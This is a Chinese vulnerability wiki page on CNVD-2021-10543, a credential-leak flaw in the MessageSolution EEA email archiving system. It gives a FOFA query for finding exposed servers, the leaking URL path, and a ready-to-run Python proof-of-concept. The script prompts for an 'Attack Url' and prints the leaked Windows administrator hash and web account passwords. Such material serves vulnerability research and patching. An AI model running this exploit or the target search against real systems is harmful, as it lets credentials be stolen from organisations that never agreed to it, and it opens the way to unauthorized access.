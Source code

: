 # MessageSolution  邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543

## 漏洞描述

MessageSolution企业邮件归档管理系统 EEA是北京易讯思达科技开发有限公司开发的一款邮件归档系统。该系统存在通用WEB信息泄漏，泄露Windows服务器administrator hash与web账号密码

## 漏洞影响

> [!NOTE]
>
> MessageSolution 企业邮件归档管理系统EEA

## FOFA

> [!NOTE]
>
> title="MessageSolution Enterprise Email Archiving (EEA)"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/mess-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

 访问如下Url

```
http://xxx.xxx.xxx.xxx/authenticationserverservlet/
```

![](http://wikioss.peiqi.tech/vuln/mess-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用获得到的密码可以登录系统

![](http://wikioss.peiqi.tech/vuln/mess-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: MessageSolution 企业邮件归档管理系统EEA                         \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')


def POC_1(target_url):
    vuln_url = target_url + "/authenticationserverservlet/"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 200 and "administrator" in response.text:
            print("\033[32m[o] 目标 {} 存在信息泄露 响应为:{}\033[0m".format(target_url, response.text))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))




if __name__ == "__main__":
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](http://wikioss.peiqi.tech/vuln/mess-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> MessageSolution  邮件归档系统EEA 信息泄露漏洞 CNVD-2021-10543
>
> Goby & POC 已经更新到 Github中

![](http://wikioss.peiqi.tech/vuln/mess-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 参考文章

https://mp.weixin.qq.com/s/jehAIIYWrpkLtGvGN-LtFA